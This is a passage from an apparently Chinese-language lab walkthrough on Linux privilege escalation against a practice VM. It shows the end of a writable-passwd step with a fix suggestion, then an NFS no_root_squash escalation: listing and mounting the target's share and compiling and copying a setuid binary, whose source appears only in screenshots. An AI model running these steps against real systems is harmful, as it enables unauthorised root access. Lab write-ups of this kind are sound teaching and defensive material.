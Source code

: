 ```
su magisec
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmLLZkYiciaVUU5FJeia970KZfRdu5UoR0kNm9GLNrVib3079983n0791BWQ/640?wx_fmt=png)

修复建议：建议将 passwd 文件与 script 权限降低，不给普通用户写权限。

NFS 特权提升
--------

查看靶机挂载目录

```
showmount -e 192.168.56.117
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmktmGFQt8hiaiaxNx2NQAqT0fTDkt33ickTic3jtjicfGStiaZBH4YkcwQpuQ/640?wx_fmt=png)

将目标靶机 nfs 目录挂载到 mnt 目录中

```
mount -t nfs 192.168.56.117:/home/muhammad /mnt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmM9XG1Kfl0K4t9cT8Nh1auiaWdlVfAAZXPyag6ibqRmK8bxFBETTI0MDA/640?wx_fmt=png)

创建 setuid

```
vim ./exp.c
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhm8AKDdUclsH7NwFicfte3X3mrLv7EU9sVnUxPqL1NPC4Ccic79Alcz5Lw/640?wx_fmt=png)

gcc 编译

```
gcc exp.c -o exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmdAN34sux0WbIPrRYF3Z0wH24O9te986hnCOLSLkenVQZh51SFERo5Q/640?wx_fmt=png)

复制到 / mnt 目录

```
cp ./exp /mnt/exp
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmrLab9eo1LUPkZ3fcNSiaRlmf06hnWzzkN3Q8W47zBLaC6LBRPib36kEA/640?wx_fmt=png)

查看 / mnt 目录

```
ls -la
```

![](https://mmbiz.qpic.cn/mmbiz_png/Jvbbfg0s6ACXcTGpicyJFTmDdrFISffhmia19EWQ99Ns8ic33M6khE9PEA74pRXxUVkelkGFMY24uJ7loFq820Kwg/640?wx_fmt=png)
